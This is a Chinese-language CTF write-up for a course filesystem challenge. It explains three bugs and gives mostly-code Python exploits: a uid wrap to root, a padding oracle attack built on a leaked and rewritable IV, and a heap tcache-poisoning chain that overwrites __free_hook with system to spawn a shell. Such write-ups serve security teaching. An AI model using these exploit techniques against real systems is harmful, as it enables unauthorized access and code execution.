 這題基本上就是考看 code + 找洞，利用相較容易，**flag2** 的問題最明顯，因為沒事不會設計成可以篡改加密的檔案，還做 padding 跟檢查 padding，寫法有夠怪應該是最容易發現。

解掉 **flag1** 也能解 **flag2**，因為 uid 相同直接用 `dec()` 解開就好；解掉 **flag3** 也能解 **flag1, 2**，因為可以透過漏洞構造出 `aar()` 跟 `aaw()`，改 uid or leak key 都可。



### flag1


雖然看似 `mu_cnt` 有擋不能為 `0x100`，但是 `mu_cnt` 因為是 `uint8_t`，因此值只會在 0 ~ 255，不會有 256 的情況。所以當你建立夠多使用者，就能讓你的 uid 變成 0，而檔案存取是看 `uid` 是否相同，所以可以存取到 root 的檔案，拿到 flag。

```c
const uint32_t mu_max_user_cnt = 0x100;
static uint8_t mu_cnt = 0;
MyUser *__new_mu(const char *username, const char *password, MyFile *rootfs_mf)
{
    if (mu_cnt == mu_max_user_cnt)
        return NULL;
}
```



### flag2

加解密過程請看 `my_encrypt()` 與 `my_decrypt()` 的 code。



leak iv:

```c
ssize_t write_mf(MyUser *ms, MyFile *mf)
{
    ...
    if (mf_is_enc(mf))
        return hexdump(mf->data.ino->content, AES_BLOCK_SIZE);
    ...
}
```



overwrite iv:

```c
int read_mf(MyUser *mu, MyFile *mf)
{
    ...
    if (mf_is_enc(mf))
        return read(STDIN_FILENO, mf->data.ino->content, mf->size);
    ...
}
```



因為可以 leak 出加密的檔案 iv 並修改，加上解密時若 padding 不對就會回報 error，因此我們可以透過 padding oracle attack 來爆出明文，exploit 如下：

```python
flag = b'\n\x07\x07\x07\x07\x07\x07\x07'
i = len(flag) + 1
while i < 0x10:
    if sys.argv[1] == 'remote':
        r = remote('edu-ctf.zoolab.org', 30213)
        solve_pow(r)
    else:
        r = process('./myfs')
    
    write_file('test_file_L1')
    cipher = r.recvuntil('/> ', drop=True)
    cipher = bytes.fromhex(cipher.decode())
    
    tmp_cipher = cipher[:-i] + b'\x00'
    for j in range(-i+1, 0, 1):
        tmp_cipher += bytes([ cipher[j] ^ flag[j] ^ i ])

    r.sendline("info test_file_L1")
    try:
        for bt in range(0x100):
            if bt == cipher[-i]:
                continue
            if -i + 1 == 0:
                try_cipher = tmp_cipher[:-i] + bytes([bt])
            else:
                try_cipher = tmp_cipher[:-i] + bytes([bt]) + tmp_cipher[-i+1:]
            
            read_file('test_file_L1', try_cipher)
            dec_file('test_file_L1')
            oracle = r.recv(3)

            if oracle != b'[-]':
                xd = bytes([bt ^ i ^ cipher[-i]])
                if xd.decode() in wl:
                    flag = xd + flag
                    print("[flag]: ", flag)
                    i += 1
                break
    except:
        pass
```



### flag3



`_new_normfile()` 在建立新的 **normfile** 時沒有對 `mf->data.ino->content` 初始化：

```c
MyFile *_new_normfile(uint8_t uid, char *fn)
{
    MyFile *mf = __new_mf();
    mf->uid = uid;
    mf->fn = strdup(fn);
    mf->data.ino = (iNode *) malloc(sizeof(iNode));
    // 這邊應該要多一個: mf->data.ino->content = NULL;
    mf->data.ino->refcnt = 1;
    return mf;
}
```



而在呼叫 `read_mf()` 時若 `mf->data.ino->content` 為 0，基本上等同於 `calloc()`：

```c
int read_mf(MyUser *mu, MyFile *mf)
{
    ...
    
    if (!mf->size || chk_min < 0 || chk_max < 0 || chk_min > nr || chk_max < nr)
        mf->data.ino->content = realloc(mf->data.ino->content, nr + 0x10);
        
	...
}
```



然而因為 heap 一開始沒有什麼資料，因此 `mf->data.ino->content` 預設就會指向 `NULL`，致使在呼叫 `read_mf()` 時不會發生問題。然而一旦 deleted 的檔案到達 16 個，就會觸發 gc 的回收機制，將每個 deleted `MyFile` 給釋放掉，此時若再新增 **normfile**，`mf->data.ino->content` 就未必指向 NULL 了。實際上可以透過這種方式控制 0x30 tcache 中某個 chunk 的 next，在撞 1/16 機率的情況下，可以指定拿到在 heap address 當中的某塊記憶體區塊。

而 `iNode` 的大小剛好是 0x30，如果能夠順利讓 `iNode` 拿到我們所控制的 chunk，並且與某個 `MyFile` 的 `content` 做重疊，就能透過印出/修改 `iNode` 的 pointer 來 leak heap/overwrite content pointer，構造 `aar()` 與 `aaw()` 的 primitive。最後用 `aar()` 讀殘留在 heap 上的 openssl library 位址來 leak libc，以 `aaw()` 寫 `__free_hook` 成 `system` 即可，exploit 如下：

```python
for i in range(0xe):
    create_normfile(str(i))

create_normfile('large_file')
read_file('large_file', 0x408 * b'\x00')

for i in range(0xe):
    delete_file(str(i))

create_normfile('owo')
# gdb.attach(r)
read_file('owo', b'\x50\x3b')

create_normfile('qaq')
read_file('qaq', 0x18 * b'\x00')

write_file('large_file') # overlap with inode of qaq
r.recv(0x10)
heap = u64(r.recv(6).ljust(8, b'\x00')) - 0x18a0
info(f"heap: {hex(heap)}")

def aar(addr):
    data = (p64(0)*2 + p64(addr)).ljust(0x408, b'\x00')
    read_file('large_file', data)
    write_file('qaq')

def aaw(addr, content):
    data = (p64(0)*2 + p64(addr)).ljust(0x408, b'\x00')
    read_file('large_file', data)
    read_file('qaq', content.ljust(0x18, b'\x00'))

aar(heap + 0x890)
libc = u64(r.recv(8)) - 0x2d0e00 - 0x1f2000
__free_hook = libc + 0x1eeb28
_system = libc + 0x55410
info(f"libc: {hex(libc)}")
aaw(heap + 0x10, p64(0x0000000100040000))
aaw(__free_hook - 8, b'/bin/sh\x00' + p64(_system))

for i in range(0xf):
    create_normfile(str(i))

for i in range(0xf):
    delete_file(str(i))

delete_file('qaq')
r.interactive()
exit(1)
except Exception as e:
print(e)
```



P.S. 過程中可能會遇到 0x30 tcache `count != 0` 但是 `entrt == NULL` 的情況，因此需要先透過 `aaw()` 來修改 `tcache_perthread_struct` 的內容，才能讓程式繼續執行。



[full exploit and source code](https://github.com/u1f383/Software-Security-2021/tree/master/quals)


